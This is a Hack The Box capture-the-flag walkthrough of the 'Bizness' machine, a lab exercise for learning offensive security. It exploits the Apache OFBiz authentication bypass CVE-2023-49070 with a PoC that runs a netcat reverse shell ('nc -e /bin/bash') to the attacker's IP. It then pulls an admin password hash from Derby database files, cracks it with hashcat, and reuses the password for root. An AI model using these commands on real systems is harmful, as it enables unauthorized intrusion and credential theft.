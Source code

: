 ```yaml
---
title: Hack the box - Bizness pwned!
date: 2024-03-01 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, bizness, ofbiz, derby]
img_path: /assets/img/posts/
---
```


## Machine info

![Bizness info](htb-bizness-info.png)
*Bizness info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.79
>
>Target machine (victim, Bizness): 10.10.11.252
{: .prompt-info}

## Enumeration

Let's go look for the open ports in the machine using `nmap`:

`sudo nmap -Pn -n -sS -p- --open -T5 --min-rate=5000 -oN nmap_initial.txt 10.10.11.252`

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
38657/tcp open  unknown
44495/tcp open  unknown
```

## Footprinting

We fine tune the scan to see if we can get more information about the running services:

`sudo nmap -Pn -n -sVC -p22,80,443,38657,44495 -oN nmap_versions.txt 10.10.11.252`

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp    open   http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open   ssl/https  nginx/1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
38657/tcp closed unknown
44495/tcp open   tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is a web service running on port 80 pointing to `https://bizness.htb/`, so let's start there.
First of all, we add the machine address to our `/etc/hosts`:

`echo "https://bizness.htb/" | sudo tee -a /etc/hosts`

We browse to `https://bizness.htb/` to investigate the web:

![Bizness Incorporated web](htb-bizness-incorporated-web.png)
*Bizness incorporated web*

We can't do anything in the web, so we will fuzzing with `gobuster` to find hidden resources:

`gobuster dir -u https://bizness.htb -x php,txt,html -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -k -b 301,302,403,404 | tee gobuster.txt`

And, we find the following resources:

```
/index.html           (Status: 200) [Size: 27200]
/control              (Status: 200) [Size: 34633]
```

Under `/control` we have `/control/login`, so we browse to `https://bizness.htb/control/login` and we find the following form:

![OFBiz login](htb-bizness-ofbiz-login.png)
*Bizness login*

We can see the [OFBiz](https://github.com/apache/ofbiz-framework) logo. 
[OFBiz framework](https://github.com/apache/ofbiz-framework) is an Apache open source ERP (Enterprise resource planning) system.

If we look at the very bottom of the page, we can see the [OFBiz](https://github.com/apache/ofbiz-framework) version:

![Bizness version](htb-bizness-ofbiz-version.png)
*Bizness version*

It's running the 18.12 version.
The current version it's a 18.12.12, so could be a little outdated.
If we look for vulnerabilities for the [OFBiz](https://github.com/apache/ofbiz-framework) 18.12 version, we can see that there is the [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070) that allows an authentication bypass in versions <= 18.12.10:

[OFBIz CVE-2023-49070 in github](https://github.com/search?q=CVE-2023-49070&type=repositories)

Seems very convenient for us, so we download a PoC and we try our luck.

## Foothold

> I used [This PoC](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit) from [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba) (thanks for the work! ;)).
>
> To be able to execute the [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba)'s exploit, we need the [ysoserial-all.jar](https://github.com/frohoff/ysoserial) package.
{: .prompt-info}

We open a `netcat` listening on our side:
`nc -lvnp 12345`

And now, we run the exploit:

`python3 ofbiz_exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.79 12345'`

> Seems that the PoCs that I tried don't work every time, and we may have to run it a few times, so be patient :P
{: .prompt-info}

And... We get shell!

### ofbiz

Fist of all, as always, it’s upgrading our tty:

```
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

Now, we can get our user flag:

`cat /home/ofbiz/user.txt`

Seems that we can't do anything else with our new user.
As [OFBiz](https://github.com/apache/ofbiz-framework) by default uses the embedded database `derby` let's take a look at its files, in the `opt/ofbiz/runtime/data/derby/ofbiz/` path.

In `/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.data` we have the crentials of the `admin` user:

```
cat c54d0.dat| grep -i password
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is a SHA-1 hash with a salt. The salt is the character `d`, and the hashed value is `uP0_QaVBpDWFeo8-dRzDqRwXQ2I`, besides `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is encoded in base64.

To crack this password, we need to decode `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` from base64url to hex:

```
echo "uP0_QaVBpDWFeo8-dRzDqRwXQ2I" | tr '_-' '/+' | base64 -d 2>/dev/null | xxd -ps
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

Now, we add the salt and store the string in the `hash.txt` file:

`echo -n "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash.txt`

And, now, we use hashcat to crack it:

`hashcat -a 0 -m 120 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

After a while, we will have the password for the `admin` user.
So, we will try if it is reused for the `root` user:

`su`

It works!
And we can get our system flag:

`cat /root/root.txt`

![Bizness pwned](htb-bizness-pwned.png)
*Bizness has been Pwned*

*Enjoy! ;)*
